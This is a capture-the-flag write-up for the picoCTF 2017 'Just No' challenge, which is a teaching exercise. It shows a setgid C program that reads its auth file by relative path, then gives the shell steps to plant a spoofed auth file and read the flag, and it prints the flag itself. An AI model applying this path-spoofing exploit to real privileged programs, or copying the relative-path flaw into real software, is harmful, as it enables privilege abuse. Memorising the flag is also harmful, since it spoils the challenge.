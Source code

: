 ## Just No [40 Points]

A program at /problems/276fc27f3ef921f0e2f0f75ba95c9e60 has access to a flag but refuses to share it. Can you convince it otherwise?

**Hints:**

- Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge. Could you possibly spoof another auth file it looks at instead...?

**Solution:**

```
$ ssh shell2017.picoctf.com
$ cd /problems/276fc27f3ef921f0e2f0f75ba95c9e60

$ ls -al
total 64
drwxr-xr-x   2 root       root       4096 Mar 31 08:00 .
drwxr-x--x 573 root       root      36864 Apr 16 23:31 ..
-rw-r--r--   1 hacksports just-no_7     2 Mar 31 08:00 auth
-r--r-----   1 hacksports just-no_7    33 Mar 31 08:00 flag
-rwxr-sr-x   1 hacksports just-no_7  7800 Mar 31 08:00 justno
-rw-r--r--   1 hacksports just-no_7   838 Mar 31 08:00 justno.c

$ cat justno.c
$ cat auth
```

The auth file is read from a relative path
```
int main(int argc, char **argv){
  //access auth file in ../../../problems/276fc27f3ef921f0e2f0f75ba95c9e60
  FILE* authf = fopen("../../problems/276fc27f3ef921f0e2f0f75ba95c9e60/auth","r");
  if(authf == NULL){
    printf("could not find auth file in ../../problems/276fc27f3ef921f0e2f0f75ba95c9e60/\n");
    return 0;
  }
```

The flag file is read if the auth file does not contain "no"
```
if(strcmp(auth,"no")!=0){
  FILE* flagf;
  flagf = fopen("/problems/276fc27f3ef921f0e2f0f75ba95c9e60/flag","r");
  char flag[64];
  fgets(flag,64,flagf);
  printf("Oh. Well the auth file doesn't say no anymore so... Here's the flag: %s",flag);
  fclose(flagf);
}
```

Create fake auth file and execute justno
```
$ cd
$ mkdir problems
$ mkdir problems/276fc27f3ef921f0e2f0f75ba95c9e60
$ cd problems/276fc27f3ef921f0e2f0f75ba95c9e60
$ echo "yes" > auth
$ /problems/276fc27f3ef921f0e2f0f75ba95c9e60/justno
Oh. Well the auth file doesn't say no anymore so... Here's the flag: 8661ca23ef68adc41d407817b8656dd0
```

**Flag:** 8661ca23ef68adc41d407817b8656dd0
